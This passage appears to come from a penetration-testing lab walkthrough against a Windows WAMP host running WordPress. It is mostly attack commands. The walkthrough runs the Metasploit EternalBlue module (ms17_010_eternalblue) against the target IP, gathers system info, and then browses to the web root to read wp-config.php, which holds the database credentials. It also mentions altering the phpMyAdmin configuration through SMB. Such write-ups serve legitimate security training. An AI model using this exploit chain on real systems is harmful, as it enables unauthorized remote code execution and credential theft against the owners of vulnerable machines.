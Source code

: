 - Access via browser
  - `http://10.2.26.45:8585/wordpress/wp-admin`

![](.gitbook/assets/image-20230424124518055.png)

- Try to gain access to **phpMyAdmin** using MSF
  - Access the target through SMB and modify phpMyAdmin configuration file

```bash
# Opne the MSF tab
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.2.26.45
run
```

```bash
sysinfo
```

- Move into the `wamp` folder

```bash
cd /
cd wamp
dir
cd www\\wordpress
cat wp-config.php
```
